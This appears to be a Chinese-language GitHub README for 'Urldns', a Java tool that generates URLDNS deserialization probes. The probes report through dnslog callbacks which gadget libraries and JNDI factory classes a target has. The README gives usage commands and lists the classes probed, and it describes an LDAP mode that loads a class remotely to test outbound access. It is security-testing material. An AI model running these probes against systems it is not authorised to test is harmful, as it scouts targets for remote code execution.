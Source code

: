 # Urldns
此工具仅能dnslog漏洞测试，不可用于非法用途，有问题请联系sonomon@126.com  

有三种模式，base64，file，ldap，file默认当前目录生成文件1.ser，ldap默认端口1389  
请输入: java -jar Urldns.jar base64 all dnslog.com  
或者   : java -jar Urldns.jar file all dnslog.com  
或者   : java -jar Urldns.jar ldap all dnslog.com  

目前支持的内置探测类如下，使用all将全部探测，可以将all替换为如下简写进行单独探测，也可以填写自定义的类进行探测。如果想同时探测多个类，用|分割。
`CommonsCollections13567  
CommonsCollections24  
CommonsBeanutils2  
C3P0  
AspectJWeaver  
bsh  
Groovy  
Becl  
Jdk7u21  
winlinux  `

使用ldap模式的all将额外探测如下  
`javax.el.ELProcessor  
org.apache.naming.factory.BeanFactory  
groovy.lang.GroovyShell  
groovy.lang.GroovyClassLoader  
org.yaml.snakeyaml.Yaml  
com.thoughtworks.xstream.XStream  
org.mvel2.sh.ShellSession  
org.apache.catalina.UserDatabase  
org.apache.catalina.users.MemoryUserDatabaseFactory  
org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory  
org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory  
org.apache.commons.dbcp2.BasicDataSourceFactory  
org.apache.commons.dbcp.BasicDataSourceFactory  
org.apache.tomcat.jdbc.pool.DataSourceFactory  
com.alibaba.druid.pool.DruidDataSourceFactory  `

示例: java -jar Urldns.jar base64 "CommonsBeanutils2|C3P0|ognl.OgnlContext" dnslog.com

ldap模式支持ldap://2.2.2.2:1389/jndi，将不再反序列化而是远程加载class，以探测是否出网
